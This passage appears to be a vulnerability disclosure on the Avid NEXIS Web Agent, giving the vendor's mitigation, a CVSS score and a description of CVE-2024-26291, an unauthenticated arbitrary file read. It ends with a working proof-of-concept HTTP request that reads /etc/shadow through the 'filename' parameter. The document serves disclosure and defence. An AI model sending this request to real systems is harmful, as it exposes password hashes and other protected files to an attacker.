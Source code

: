 ### Mitigation
The official mitigation advisory from Avid for this issue is:
"The NEXIS Web Agent input validation has been resolved in the newest version of NEXIS 2024.6.0. Avid engineering recommends you upgrade to NEXIS 2024.6.0 (available for download on June 18, 2024) to resolve this issue.
If you are unable to update your NEXIS release at this time, you can mitigate the issue by configuring a firewall rule for the Storage Manager Agent (Port 5015) to whitelist access into NEXIS. " [source: June 20th 2024 Update](https://kb.avid.com/pkb/articles/troubleshooting/en239659).

DriveByte recommends both, first, to update to the latest version and second to restrict access to the agent port. This is based on the fact the there is also another possibility to (half officially) execute code on the host with a built-in utility in the agent.

### CVSS
DriveByte Calculated the following CVSS 4.0 base metrics:

8.7 (CVSS:4.0/AV:N/AC:L/AT:N/PR:L/UI:N/VC:H/VI:H/VA:H/SC:N/SI:N/SA:N)

## Unauthenticated Arbitrary File Read (Linux/Windows): CVE-2024-26291

### Description

The Application is vulnerable to an Unauthenticated Arbitrary File Read. This affects the
Agent installed on Linux and Windows alike. The parameter filename does not validate the
path at all. Thus allowing anyone (authentication is not required) to read arbitrary files. As
the application runs per default with the highest privileges (root/NT_AUTHORITY SYSTEM),
attackers are able to obtain critical files like /etc/shadow.

### Proof of Concept 

The vulnerability can be triggered with the following GET request:

```http
GET /logs?filename=%2Fetc%2fshadow HTTP/1.1
Host: 192.168.40.141:5015
Sec-Ch-Ua: "Chromium";v="119", "Not?A_Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://192.168.40.141:5015/agent?context=5815&r=logs&request=dump_usrv_log
Accept-Encoding: gzip, deflate, br
Accept-Language: de-DE,de;q=0.9,en-US;q=0.8,en;q=0.7
Priority: u=0, i
Connection: close
```
